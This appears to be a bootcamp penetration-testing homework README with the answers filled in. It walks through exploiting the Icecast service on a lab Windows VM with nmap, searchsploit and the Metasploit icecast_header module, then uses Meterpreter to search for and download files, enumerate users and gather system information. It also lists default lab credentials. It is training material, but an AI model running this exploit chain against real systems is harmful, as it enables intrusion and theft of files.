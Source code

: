 # Penetration-Test-Engagment
In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
​
- The CEO claims to have passwords that are long and complex and therefore unhackable.
​
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.
​
- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.
​
#### Setup 
- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 
​
#### Reminders
- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`
​
#### Deliverable
Once you complete this assignment, submit your findings in the following document: 
​
- [Report.docx](Resources/Report.docx)
 
### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:
    - Run the Nmap command that performs a service and version scan against the target.
      > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   - Run the SearchSploit commands to show available Icecast exploits.
     > Answer: searchsploit icecast
​

3. Now that we know which exploits are available to us, let's start Metasploit: 
   - Run the command that starts Metasploit:
     > Answer: msfconsole
 
4. Search for the Icecast module and load it for use.
   - Run the command to search for the Icecast module:
     > Answer: search icecast

   
- Run the command to use the Icecast module:
       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.
     > Answer: use exploit/windows/http/icecast_header


5. Set the `RHOST` to the target machine. 
   - Run the command that sets the `RHOST`:
     > Answer: set RHOSTS 192.168.0.20


6. Run the Icecast exploit.
   - Run the command that runs the Icecast exploit.
     > Answer: run

   - Run the command that performs a search for the `secretfile.txt` on the target
     > Answer: search –f  *secretfile*


 7. You should now have a Meterpreter session open.
    - Run the command to performs a search for the `recipe.txt` on the target:
      > Answer: search –f  *recipe*

  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:
      > Answer:  download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’


​

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
      > Answer:  run post/multi/recon/local_exploit_suggester
​
 
#### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.​
  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.
  > Answer: shell
 > Answer: ipconfig –all

C. Run the command that displays the target's computer system information:
   > Answer: systeminfo
​
---
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

